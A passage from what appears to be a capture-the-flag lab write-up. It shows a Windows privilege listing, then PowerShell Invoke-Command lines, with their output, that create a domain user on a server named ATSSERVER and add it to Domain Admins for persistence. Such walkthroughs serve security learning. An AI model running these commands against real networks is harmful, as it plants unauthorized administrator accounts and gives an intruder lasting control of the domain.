 ```
SeDebugPrivilege                          Debug programs                                                     Enabled                                                                                               
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled      
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled                                                                                               SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled                                                                                               
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled                                                                                               
SeCreateGlobalPrivilege                   Create global objects                                              Enabled                                                                                               
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled                                                                                               
SeTimeZonePrivilege                       Change the time zone                                               Enabled                                                                                               
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled               
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

```

These permissions do get reset periodically, so I’ll try adding another user:

```

PS C:\Utils> Invoke-Command -ScriptBlock { net user 0xdf abcdABCD1234!@#$ /add /domain /Y } -ComputerName ATSSERVER -Credential $cred
The command completed successfully.

```

(This took me many tries to get the password complexity enough and add `/Y` to override a prompt.)

And adding it to `Domain Admins`:

```

PS C:\Utils> Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
Invoke-Command -ScriptBlock { net group "Domain Admins" 0xdf /add /domain } -ComputerName ATSSERVER -Credential $cred
The command completed successfully.

```
